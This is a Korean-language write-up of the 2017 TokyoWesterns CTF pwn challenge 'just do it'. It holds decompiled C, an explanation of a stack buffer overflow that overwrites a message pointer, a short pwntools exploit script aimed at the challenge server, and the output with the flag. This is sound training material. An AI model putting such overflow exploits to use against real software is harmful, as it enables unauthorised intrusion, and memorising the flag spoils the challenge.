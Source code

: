 # [2017_TWCTF] \[PWN] just do it

### Problem

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [sp+8h] [bp-20h]@7
  FILE *stream; // [sp+18h] [bp-10h]@1
  char *v6; // [sp+1Ch] [bp-Ch]@1

  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 2, 0);
  v6 = failed_message;
  stream = fopen("flag.txt", "r");
  if ( !stream )
  {
    perror("file open error.\n");
    exit(0);
  }
  if ( !fgets(flag, 48, stream) )
  {
    perror("file read error.\n");
    exit(0);
  }
  puts("Welcome my secret service. Do you know the password?");
  puts("Input the password.");
  if ( !fgets(&s, 32, stdin) )
  {
    perror("input error.\n");
    exit(0);
  }
  if ( !strcmp(&s, PASSWORD) )
    v6 = success_message;
  puts(v6);
  return 0;
}
```

flag를 읽어와서 전역 변수에 저장합니다.



### 취약점 - Stack based Overflow

`char s; // [sp+8h][bp-20h]@7`에서 s라는 변수가 ebp로부터 0x20만큼 떨어져있음을 알 수 있습니다.

` if ( !fgets(&s, 32, stdin) )`에서 32바이트를 입력받는데 이를 통해 오버플로우를 일으킬 수 있습니다.

마지막에 `  puts(v6);`가 있는데 v6의 값을 flag 전역변수의 주소값으로 변경시키면 flag가 출력됩니다.



### Exploit

```python
from pwn import *

#p = process("./just_do_it")
p = connect("pwn1.chal.ctf.westerns.tokyo",12345)
print p.recv()
payload = "a"*(0x20-0xc) + p32(0x0804A080)
p.send(payload)
p.interactive()
```



### 실행 결과

```
$ python ex.py 
[+] Opening connection to pwn1.chal.ctf.westerns.tokyo on port 12345: Done
Welcome my secret service. Do you know the password?
Input the password.

[*] Switching to interactive mode
$ 
TWCTF{pwnable_warmup_I_did_it!}
```


